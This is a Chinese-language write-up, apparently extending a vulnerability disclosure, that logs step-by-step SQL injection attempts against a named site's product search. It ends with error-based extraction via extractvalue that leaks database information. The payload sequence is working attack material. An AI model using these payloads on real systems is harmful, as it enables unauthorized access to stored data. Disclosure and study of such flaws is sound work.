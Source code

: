 ```yaml
---
title: SQL Injection beta-gocare Success
description: SQL Injection beta-gocare Success
last_update:
  date: "2025-08-20T08:00:00+08:00"
---
```


本文是 https://zeroday.hitcon.org/vulnerability/ZD-2025-01026 的延伸

## 原始 SQL 語法

```sql
SELECT * FROM (`product_file`) WHERE ( name like '% userInput %' OR content like '% userInput %' OR memo like '% userInput %' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

<!-- ## 測試過程

1. `'`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%' OR content like '%'%' OR memo like '%'%' ) AND `display` = 'y' AND `sell_kind' at line 3

SELECT * FROM (`product_file`) WHERE ( name like '%'%' OR content like '%'%' OR memo like '%'%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

2. `' OR '1' = '1`

成功搜尋到

3. `' UNION SELECT 1-- 123`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'UNION SELECT 1-- 123%' OR content like '%' UNION SELECT 1-- 123%' OR memo like '' at line 3

SELECT * FROM (`product_file`) WHERE ( name like '%' UNION SELECT 1-- 123%' OR content like '%' UNION SELECT 1-- 123%' OR memo like '%' UNION SELECT 1-- 123%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

完整的 SQL 語法都看到了

4. `') UNION SELECT 1-- 123`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'UNION SELECT 1-- 123%' OR content like '%' UNION SELECT 1-- 123%' OR memo like '' at line 3

SELECT * FROM (`product_file`) WHERE ( name like '%' UNION SELECT 1-- 123%' OR content like '%' UNION SELECT 1-- 123%' OR memo like '%' UNION SELECT 1-- 123%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

好奇怪，`-- 123` 沒有把後面的 SQL 語法註解掉

5. `') UNION SELECT NULL-- 123`

```
A Database Error Occurred
Error Number: 1054

Unknown column 'display' in 'field list'

SELECT * FROM (`product_file`) WHERE ( name like '%') UNION SELECT NULL-- 123%' OR content like '%') UNION SELECT NULL-- 123%' OR memo like '%') UNION SELECT NULL-- 123%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

6. `')#`

成功搜尋到，所以 `#` 可以成功註解(?

7. `') UNION SELECT 1#`

```
A Database Error Occurred
Error Number: 1054

Unknown column 'display' in 'field list'

SELECT * FROM (`product_file`) WHERE ( name like '%') UNION SELECT 1#%' OR content like '%') UNION SELECT 1#%' OR memo like '%') UNION SELECT 1#%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

8. `'-- 123`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'LIMIT 12' at line 8

SELECT * FROM (`product_file`) WHERE ( name like '%'-- 123%' OR content like '%'-- 123%' OR memo like '%'-- 123%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

9. `')-- 123`

成功搜尋到

10. `%' ) UNION SELECT NULL AND ( '%' = '`

```
A Database Error Occurred
Error Number: 1054

Unknown column 'content' in 'field list'

SELECT * FROM (`product_file`) WHERE ( name like '%%' ) UNION SELECT NULL AND ( '%' = '%' OR content like '%%' ) UNION SELECT NULL AND ( '%' = '%' OR memo like '%%' ) UNION SELECT NULL AND ( '%' = '%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

11. `%') UNION SELECT 1-- 123`

```
A Database Error Occurred
Error Number: 1054

Unknown column 'display' in 'field list'

SELECT * FROM (`product_file`) WHERE ( name like '%%') UNION SELECT 1-- 123%' OR content like '%%') UNION SELECT 1-- 123%' OR memo like '%%') UNION SELECT 1-- 123%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

12. `%') UNION SELECT 1#`

```
A Database Error Occurred
Error Number: 1054

Unknown column 'display' in 'field list'

SELECT * FROM (`product_file`) WHERE ( name like '%%') UNION SELECT 1#%' OR content like '%%') UNION SELECT 1#%' OR memo like '%%') UNION SELECT 1#%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

13. `%') UNION SELECT 1 OR ('1'='1`

```
A Database Error Occurred
Error Number: 1054

Unknown column 'content' in 'field list'

SELECT * FROM (`product_file`) WHERE ( name like '%%') UNION SELECT 1 OR ('1'='1%' OR content like '%%') UNION SELECT 1 OR ('1'='1%' OR memo like '%%') UNION SELECT 1 OR ('1'='1%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

推測應該是這邊正常

```sql
SELECT * FROM (`product_file`) WHERE ( name like '%%')
```

到了這邊就報錯，因為 `content` 已經離開前面的作用域

```sql
UNION SELECT 1 OR ('1'='1%' OR content like '%%')
```

14. `%' ) UNION (SELECT 'content' content, 'memo' memo AND '%' = '`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'AND '%' = '%' OR content like '%%' ) UNION (SELECT 'content' content, 'memo' mem' at line 3

SELECT * FROM (`product_file`) WHERE ( name like '%%' ) UNION (SELECT 'content' content, 'memo' memo AND '%' = '%' OR content like '%%' ) UNION (SELECT 'content' content, 'memo' memo AND '%' = '%' OR memo like '%%' ) UNION (SELECT 'content' content, 'memo' memo AND '%' = '%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

15. `%' ) UNION SELECT 'content' content, 'memo' memo AND ('%' = '`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'AND ('%' = '%' OR content like '%%' ) UNION SELECT 'content' content, 'memo' mem' at line 3

SELECT * FROM (`product_file`) WHERE ( name like '%%' ) UNION SELECT 'content' content, 'memo' memo AND ('%' = '%' OR content like '%%' ) UNION SELECT 'content' content, 'memo' memo AND ('%' = '%' OR memo like '%%' ) UNION SELECT 'content' content, 'memo' memo AND ('%' = '%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

16. `%' ) UNION SELECT 'content' as content, 'memo' as memo WHERE ('%' = '`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'WHERE ('%' = '%' OR content like '%%' ) UNION SELECT 'content' as content, 'memo' at line 3

SELECT * FROM (`product_file`) WHERE ( name like '%%' ) UNION SELECT 'content' as content, 'memo' as memo WHERE ('%' = '%' OR content like '%%' ) UNION SELECT 'content' as content, 'memo' as memo WHERE ('%' = '%' OR memo like '%%' ) UNION SELECT 'content' as content, 'memo' as memo WHERE ('%' = '%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

17. `%' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 FROM information_schema.tables WHERE '1'='1`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 FROM information_schema.tables WHERE '1'' at line 3

SELECT * FROM (`product_file`) WHERE ( name like '%%' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 FROM information_schema.tables WHERE '1'='1%' OR content like '%%' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 FROM information_schema.tables WHERE '1'='1%' OR memo like '%%' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 FROM information_schema.tables WHERE '1'='1%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

18. `%' AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))--`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%' OR content like '%%' AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name)' at line 3

SELECT * FROM (`product_file`) WHERE ( name like '%%' AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))--%' OR content like '%%' AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))--%' OR memo like '%%' AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))--%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

19. `%') AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))--`

```
A Database Error Occurred
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%' OR content like '%%') AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name' at line 3

SELECT * FROM (`product_file`) WHERE ( name like '%%') AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))--%' OR content like '%%') AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))--%' OR memo like '%%') AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))--%' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

20. `%') AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))-- `

```
A Database Error Occurred
Error Number: 1105

XPATH syntax error: '~62~'

SELECT * FROM (`product_file`) WHERE ( name like '%%') AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))-- %' OR content like '%%') AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))-- %' OR memo like '%%') AND extractvalue(1,concat(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1),0x7e))-- %' ) AND `display` = 'y' AND `sell_kind` > '0' AND `act_start` <= '2025-08-20' AND `act_end` >= '2025-08-20' LIMIT 12
```

成功提取到資料～果然 `UNION SELECT` 在這種複合式的查詢很難注入成功～

21. 接下來請參考 [ZD-2025-01026](https://zeroday.hitcon.org/vulnerability/ZD-2025-01026) -->

## 學到的東西

1. `UNION SELECT` 在實務上有點難成功
2. `extractvalue(1,concat(0x7e,(SELECT name FROM members LIMIT 0,1)`，如果 `members` 沒資料，整個 SQL 語法就不會噴錯(?)
